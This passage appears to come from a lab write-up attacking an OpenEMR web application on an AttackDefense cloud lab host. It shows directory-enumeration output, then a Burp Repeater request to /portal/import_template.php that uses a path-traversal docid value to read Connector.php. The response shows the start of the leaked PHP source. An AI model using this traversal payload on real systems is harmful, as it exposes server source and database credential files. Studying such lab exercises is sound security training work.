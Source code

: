 ```
/modules              (Status: 301) [Size: 420] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/modules/]
/portal               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/portal/]📌
/public               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/public/]
/server-status        (Status: 403) [Size: 353]
/services             (Status: 301) [Size: 421] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/services/]
/sites                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sites/]
/sql                  (Status: 301) [Size: 416] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/sql/]
/templates            (Status: 301) [Size: 422] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/templates/]
/tests                (Status: 301) [Size: 418] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/tests/]
/vendor               (Status: 301) [Size: 419] [--> http://a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

mode=get&docid=../../../../../../var/www/html/common/database/Connector.php📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:24:28 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 6485

<?php
/**
 * This singleton class provides a pooled Doctrine connection to consumers. All connection data
```
